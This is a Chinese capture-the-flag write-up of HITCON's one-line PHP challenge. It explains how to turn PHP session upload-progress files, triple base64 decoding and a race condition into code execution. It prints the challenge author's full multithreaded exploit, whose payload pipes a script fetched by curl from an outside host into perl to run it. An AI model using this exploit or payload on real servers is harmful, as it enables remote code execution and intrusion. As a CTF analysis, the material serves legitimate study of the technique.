


Orange师傅每年都会在HITCON上给我们惊喜，今年的一行php代码挑战也是相当有意思，也从中学到了很多，在这里记录一下。
题目描述
环境为ubuntu18.04 + php7.21
($_=@$_GET['orange']) && @substr(file($_)[0],0,6) === '@<?php' ? include($_) : highlight_file(__FILE__);
关于session
如果我们使用了session_start函数或者session.auto_start=On，当产生一个session时，会在/var/lib/php/sessions/目录下生成一个名为sess_79timl3shppe6ak8306kabq324(sess_PHPSESSID)的文件，但是如果我们不使用session_start函数并且session.auto_start=Off，便不会生成session文件。在Ubuntu18.04中apt安装的php7.2，默认配置为session.upload_progress.enabled=On，就是session文件上传进度是开启的，查看php的手册发现，只要在上传文件的同时，POST一个名为session.upload_progress.name的变量，就会在$_SESSION中添加一组数据，索引为session.upload_progress.prefix与session.upload_progress.name变量值组合起来的值。

接着查看php手册发现session.upload_progress.name=PHP_SESSION_UPLOAD_PROGRESS，session.upload_progress.prefix=upload_progress_
。
在Ubuntu中进行测试，虽然session.auto_start=Off，也没有session_start函数，只要我们规范的POST数据1
curl "http://192.168.218.153" -H "Cookie: PHPSESSID=donky16" -F "PHP_SESSION_UPLOAD_PROGRESS=donky" -F "fi le=@C:/Users/donky16/Downloads/malbolge.txt"
就会生成session文件1
2root@ubuntu:~# ls /var/lib/php/sessions/
sess_donky16
文件名就是sess_和我们POST的PHPSESSID拼接的值，文件名是可控的，由于session.upload_progress.cleanup=On，我们读取这个文件时，已经是空文件了，所以需要在POST数据时，服务端不断查看这个文件。1
root@ubuntu:/var/lib/php/sessions# for i in \`seq 1 30000\`; do cat sess_donky16; done
获得文件内容1
upload_progress_donky|a:5:{s:10:"start_time";i:1541338372;s:14:"content_length";i:154325;s:15:"bytes_processed";i:5241;s:4:"done";b:0;s:5:"files";a:1:{i:0;a:7:{s:10:"field_name";s:4:"file";s:4:"name";s:12:"malbolge.txt";s:8:"tmp_name";N;s:5:"error";i:0;s:4:"done";b:0;s:10:"start_time";i:1541338372;s:15:"bytes_processed";i:5241;}}}
可以看到这组数据索引就是upload_progress_donky是session.upload_progress.prefix的值与session.upload_progress.name的值的拼接，而且session.upload_progress.name是我们POST的数据是可控的。
关于base64编码
base64decode的时候，会自动忽略掉非法字符。我们需要使用base64decode使upload_progress_变成空字符，才能使题目中的substr(file($_)[0],0,6) === '@<?php'。_会被忽略，这样只剩下14个字符，我们需要填充两个字符。我们先将前12个字符解码base64decode('upload_progre')='\xba\x99hi\xdak\xa2\n\xde'，结果有三个有效字符，必须填充两个字符padding使base64decode('ss+padding')是有效字符，这样再次解码会得到三个字符，要是最后为空，必须使这三个字符都为非法字符。小脚本运行一下1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20#!python3
import base64
import string
good_chars = string.digits + string.ascii_uppercase + string.ascii_lowercase + '+/'
sl = []
for i in range(len(good_chars)):
for j in range(len(good_chars)):
try:
str = 'upload_progress_'
str = str + good_chars[i] + good_chars[j]
print(str)
s = base64.b64decode(str)
s = base64.b64decode(s)
s = base64.b64decode(s)
if s.decode() == '':
sl.append(str)
except:
pass
print(sl)
获得很多可利用的padding，选取NN，所以payload应该是upload_progress_ZZ和经过三次base64encode的php代码的拼接
综合利用
由于session.upload_progress.cleanup=On，所以用条件竞争，使用多线程来利用，最后附上Orange的exp1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58import sys
import string
import requests
from base64 import b64encode
from random import sample, randint
from multiprocessing.dummy import Pool as ThreadPool
HOST = 'http://54.250.246.238/'
sess_name = 'iamorange'
headers = {
'Connection': 'close',
'Cookie': 'PHPSESSID=' + sess_name
}
payload = '@<?php `curl orange.tw/w/bc.pl|perl -`;?>'
while 1:
junk = ''.join(sample(string.ascii_letters, randint(8, 16)))
x = b64encode(payload + junk)
xx = b64encode(b64encode(payload + junk))
xxx = b64encode(b64encode(b64encode(payload + junk)))
if '=' not in x and '=' not in xx and '=' not in xxx:
payload = xxx
print payload
break
def runner1(i):
data = {
'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload + 'Z'
}
while 1:
fp = open('/etc/passwd', 'rb')
r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
fp.close()
def runner2(i):
filename = '/var/lib/php/sessions/sess_' + sess_name
filename = 'php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s' % filename
# print filename
while 1:
url = '%s?orange=%s' % (HOST, filename)
r = requests.get(url, headers=headers)
c = r.content
if c and 'orange' not in c:
print [c]
if sys.argv[1] == '1':
runner = runner1
else:
runner = runner2
pool = ThreadPool(32)
result = pool.map_async( runner, range(32) ).get(0xffff)